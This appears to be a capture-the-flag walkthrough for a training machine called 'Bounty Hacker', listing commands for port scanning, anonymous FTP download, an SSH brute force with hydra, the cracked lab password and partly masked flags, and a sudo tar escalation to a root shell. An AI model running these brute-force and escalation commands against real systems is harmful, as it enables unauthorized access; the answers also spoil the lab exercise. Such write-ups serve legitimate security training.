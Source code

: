 # Bounty Hacker

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!

- Deploy the machine.

	no answer needed

- Find open ports on the machine

	no answer needed

	- `nmap -Pn <TARGET_IP>`

- Who wrote the task list?

	- `ftp <TARGET_IP>`
	- `user`
	- `anonymous`
	- `recv locks.txt`
	- `recv task.txt`
	- `cat task.txt`
	- `lin`

- What service can you bruteforce with the text file found?

	- `ssh`

- What is the users password? 

	- `hydra -s 22 -v -V -l 'lin' -P locks.txt -t 8 <TARGET_IP> ssh`
	- `RedDr4gonSynd1cat3`

- user.txt

	- `ssh lin@<TARGET_IP>` and the enter `yes` and the password `RedDr4gonSynd1cat3`
	- `ls`
	- `cat user.txt`
	- `THM{******SyNd1C4T3}`

- root.txt

	- Type `sudo -l`, enter the password and you can see lin user can run `tar` command with sudo.
	- Search on [GTFObins](https://gtfobins.github.io/) `tar`
	- Then search for `sudo`
	- Found this: `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`
	- Execute this and then `cat /root/root.txt`
	- `THM{*************}`




